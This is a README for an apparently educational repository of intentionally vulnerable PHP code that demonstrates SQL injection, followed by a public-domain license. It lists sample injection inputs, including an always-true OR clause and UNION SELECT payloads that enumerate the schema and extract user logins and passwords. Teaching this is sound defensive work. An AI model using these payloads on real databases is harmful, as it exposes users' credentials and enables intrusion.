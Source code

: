 ## SQL Injection Example Code

### IMPORTANT: Do not place this code on a server that can be accessed by others.

To get things up and running:

* Create a database in MySQL, and edit these lines in `bad-inj-show.php` to match:
```php
$dsn = 'mysql:dbname=my_dbname;host=127.0.0.1';
$user = 'my_user';
$password = 'my_password';
```
* Insert the my_users table from the `db_dump.sql` file with a command like this:
```sh
$ mysql -u my_user -pmy_password my_db_name < db_dump.sql
```

* Host the code locally using something like [MAMP](http://www.mamp.info/en/) or [XAMPP](https://www.apachefriends.org/index.html).

* Navigate to the `bad-inj.php` page in your browser and play around with the form.

Here are some examples of some input to try:

```
ed@example.com

a" OR 1 = 1 -- 

a" UNION ALL SELECT TABLE_SCHEMA,TABLE_NAME from information_schema.TABLES; -- 

a" UNION ALL SELECT COLUMN_NAME,COLUMN_TYPE from information_schema.COLUMNS where TABLE_NAME = "my_users"; -- 

a" UNION ALL SELECT user_login,user_pass from my_users; -- 

a" UNION ALL SELECT user_email,user_pass from my_users; -- 
```

And I think it goes without saying, use this knowledge for learning how to protect yourself, and for the greater good ;)

------

This is free and unencumbered software released into the public domain.

Anyone is free to copy, modify, publish, use, compile, sell, or
distribute this software, either in source code form or as a compiled
binary, for any purpose, commercial or non-commercial, and by any
means.

In jurisdictions that recognize copyright laws, the author or authors
of this software dedicate any and all copyright interest in the
software to the public domain. We make this dedication for the benefit
of the public at large and to the detriment of our heirs and
successors. We intend this dedication to be an overt act of
relinquishment in perpetuity of all present and future rights to this
software under copyright law.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND,
EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT.
IN NO EVENT SHALL THE AUTHORS BE LIABLE FOR ANY CLAIM, DAMAGES OR
OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE,
ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR
OTHER DEALINGS IN THE SOFTWARE.

For more information, please refer to <http://unlicense.org/>